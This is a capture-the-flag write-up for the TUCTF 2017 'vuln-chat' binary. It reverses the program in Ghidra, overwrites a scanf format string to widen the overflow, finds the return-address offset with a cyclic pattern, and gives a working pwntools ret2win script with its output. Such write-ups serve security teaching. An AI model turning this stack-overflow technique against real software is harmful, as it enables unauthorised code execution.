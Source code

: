 # Vuln-chat - nightmare

check file info
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/tuctf_2017_vulnchat$ file vuln-chat 
vuln-chat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a3caa1805eeeee1454ee76287be398b12b5fa2b7, not stripped
matan@matan:~/Documents/hacking/nightmare/stackoverflow/tuctf_2017_vulnchat$ checksec --file=vuln-chat
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   75) Symbols	  No	0		1		vuln-chat
```
we can see that the exe is type of 32bit.
lets reverse it Ghidra:
```c

undefined4 main(void)

{
  undefined local_31 [20];
  undefined local_1d [20];
  undefined4 local_9;
  undefined local_5;
  
  setvbuf(stdout,(char *)0x0,2,0x14);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  local_9 = 0x73303325;
  local_5 = 0;
  __isoc99_scanf(&local_9,local_1d);
  printf("Welcome %s!\n",local_1d);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ",local_1d);
  __isoc99_scanf(&local_9,local_31);
  puts("djinn: Sorry. That\'s not good enough");
  fflush(stdout);
  return 0;
}
```
we can see that we we have 2 buffer that we can overflow them.
1. local_31 [20] -> `__isoc99_scanf(&local_9,local_1d);`
2. local_1d [20] -> `__isoc99_scanf(&local_9,local_31);`

local9 is format for scanf ,lets check it's value 0x73303325 -> "%30s" so our buffer limited to 30 chars
we can override local_9 in order to override rip in `__isoc99_scanf(&local_9,local_31);`
first buffer should be 20 bytes + '%100s'
second buffer - we can check it with pattern_create
```
matan@matan:~/Documents/hacking/nightmare/stackoverflow/tuctf_2017_vulnchat$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 60
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9

matan@matan:~/Documents/hacking/nightmare/stackoverflow/tuctf_2017_vulnchat$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 60 -q b6Ab
[*] Exact match at offset 49
```

in order to print the flag i found function printFlag ,we can override the eip to printFlag address.
```
pwndbg> p printFlag
$6 = {<text variable, no debug info>} 0x804856b <printFlag>
```

lets write the exploit
```python
from pwn import process, packing


def exploit():
    format_buffer = b'A' * 20 + b'%100s'
    override_eip_payload = b'A' * 49 + packing.p32(0x804856b)
    prs = process("./vuln-chat")
    prs.sendline(format_buffer)
    prs.sendline(override_eip_payload)
    prs.interactive()


if __name__ == '__main__':
    exploit()

```

Result:
```console
matan@matan:~python /home/matan/Documents/hde65/web_requests/nightmare/vulnchat.py
[+] Starting local process '/home/matan/Documents/hacking/nightmare/stackoverflow/tuctf_2017_vulnchat/vuln-chat': pid 56878
[*] Switching to interactive mode
----------- Welcome to vuln-chat -------------
Enter your username: Welcome AAAAAAAAAAAAAAAAAAAA%100s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAA%100s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
Use it wisely

```

